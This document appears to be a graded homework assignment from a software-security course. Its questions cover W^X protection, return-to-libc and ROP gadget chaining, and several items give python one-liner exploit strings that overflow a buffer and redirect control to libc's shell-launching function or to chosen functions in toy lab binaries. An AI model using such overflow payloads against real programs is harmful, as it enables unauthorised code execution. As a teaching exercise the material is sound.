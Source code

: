 Instructions
============

-   You must submit your homework using this Latex template.

-   This homework is graded out of 70 points. Point values are
    associated to each question.

Questions
=========

1.  (5 points) Explain the principle of w-⊗-x as a way to protect
    against stack smashing attacks that load shell code.

2.  (5 points) What `gcc` compilation is used to **tunr off** w-xor-x?

3.  (5 points) What is a return-to-libc attack?

4.  (5 points) What c-library function is typically called when
    performing a return-to-libc attack? Why do we choose this one?

5.  (5 points) Explain the **error** output and how we know that this
    was a successful exploit.

        user@si485H-base:demo$ ./vulnerable 10 `python -c "print 'A'*(0x2c+4)+'\x90\xa1\xe5\xb7'"`
        sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???: not found
        Segmentation fault (core dumped)

6.  (10 points) Draw the stack diagram for the function below after
    ret2libc attack is executed properly. Use the diagram to explain how
    you control the argument in a ret2libc attack.

        void vuln(int i, char * s){

          char buf[20];
          strcpy(buf,s);

          while(i-- > 0)
            printf("%d: %s\n",i,buf);

          return;
        }

7.  (5 points) Suppose you’re exploiting the function below. You know
    that the value of `s` is 0xbfff625. Provide an exploit string for a
    re2libc attack that will launch a shell.

        void vuln(char * s){

          char buf[20];
          strcpy(buf,s);

          while(i-- > 0)
            printf("%d: %s\n",i,buf);

          return;
        }

8.  (5 point) If the function bad() is at address 0x0804847d and the
    address of good() is at address 0x0804852a, what order of functions
    results from the exploit string:

        ./prog `python -c "print 'A'*(0x6c+4) + '\x7d\x84\x04\x08' + '\x2a\x85\x04\x08' + '\x2a\x85\x04\x08' + '\x7d\x84\x04\x08'"`

9.  (5 point) Consider that the function bad() is defined as following:

        void bad(int a){printf("%#08x\n",a);}     

    and good() is defined as following

        void good(){printf("Go Navy!\n");}     

    What is the output given the exploit string if good() and bad() is
    at the same location as before?

        ./prog `python -c "print 'A'*(0x6c+4) + '\x7d\x84\x04\x08' + '\x2a\x85\x04\x08' + '\xbe\xba\xfe\xca' + '\xef\xbe\xad\xde'"`

10. (5 point) Consider that the function bad() is defined as following:

        void bad(int a, int b){printf("%#08x %#08x\n",a,b);}      

    And good() is defined the same as before, what will the output of
    the program be?

        ./prog `python -c "print 'A'*(0x6c+4) + '\x7d\x84\x04\x08' + '\x2a\x85\x04\x08' + '\xbe\xba\xfe\xca' + '\xef\xbe\xad\xde'"`      

11. (5 points) Given the definition of `bad(int a, int b)` and `good()`
    from above, why can we not create a exploit string where we call
    `bad(0xcafebabe,0xdeadbeef)` then `good()` and then `bad()` again
    such that this time `bad(0xbadf00d,0xfeed3e3e)` is called?

12. (5 points) If we were to write an exploit string to do the sequence
    of function calls as desired above (ie, `bad(0xcafebabe)`,
    `good(0xdeadbeef)`, then `bad(0xbadf00d,0xfeed3e3e)`): What gadget
    would we need?

13. (5 points) Assuming the gadget was at memory address
    `0x080485a9`,complete the exploit string to do the desired sequence
    of function calls.


